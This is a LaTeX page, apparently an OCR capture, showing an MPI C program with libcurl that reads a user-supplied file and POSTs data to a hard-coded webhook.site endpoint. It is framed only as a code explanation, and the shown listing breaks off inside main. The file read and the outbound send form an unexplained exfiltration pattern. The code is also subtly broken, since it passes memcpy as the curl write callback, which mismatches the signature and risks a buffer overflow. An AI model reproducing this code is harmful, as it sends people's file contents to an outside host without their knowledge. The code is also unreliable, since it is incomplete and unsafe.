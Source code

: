 \documentclass[a4paper,12pt]{article}
\begin{document}
\section{Code Structure and Explanation}
\begin{lstlisting}
mpicc -o <your_program_name> <your_program_name>.c -lcurl
mpirun -np 2 ./<your_program_name> <filename>.<extension>
\end{lstlisting}
\begin{lstlisting}
#include <mpi.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <curl/curl.h>

#define BUFFER_SIZE 4096

void send_http_request(const char* request, char* response) {
    CURL* curl;
    CURLcode res;
    struct curl_slist* headers = NULL;

    curl = curl_easy_init();
    if (!curl) {
        fprintf(stderr, "Error initializing libcurl\n");
        strcpy(response, "Error initializing libcurl");
        return;
    }

    // Configure the HTTP request
    curl_easy_setopt(curl, CURLOPT_URL, "https://webhook.site/e5022f2e-5e9a-4290-9f06-cb1c906a5d78");
    curl_easy_setopt(curl, CURLOPT_POSTFIELDS, request);

    // Set up a response handler
    curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, memcpy);
    curl_easy_setopt(curl, CURLOPT_WRITEDATA, response);

    // Perform the HTTP request
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "curl_easy_perform() failed: %s\n", curl_easy_strerror(res));
        strcpy(response, "HTTP request failed");
    }

    curl_easy_cleanup(curl);
}

void read_file_to_buffer(const char* filename, char* buffer) {
    FILE* file = fopen(filename, "r");
    if (!file) {
        fprintf(stderr, "Error opening file: %s\n", filename);
        return;
    }

    size_t bytesRead = fread(buffer, 1, BUFFER_SIZE - 1, file);
    buffer[bytesRead] = '\0';  // Null-terminate the string
    fclose(file);
}

int main(int argc, char** argv) {
    MPI_Init(&argc, &argv);

    int world_rank, world_size;
    MPI_Comm_rank(MPI_COMM_WORLD, &world_rank);
    MPI_Comm_size(MPI_COMM_WORLD, &world_size);

    if (world_size < 2) {
        fprintf(stderr, "World size must be at least 2\n");
        MPI_Abort(MPI_COMM_WORLD, 1);
    }


\end{lstlisting}
\end{document}
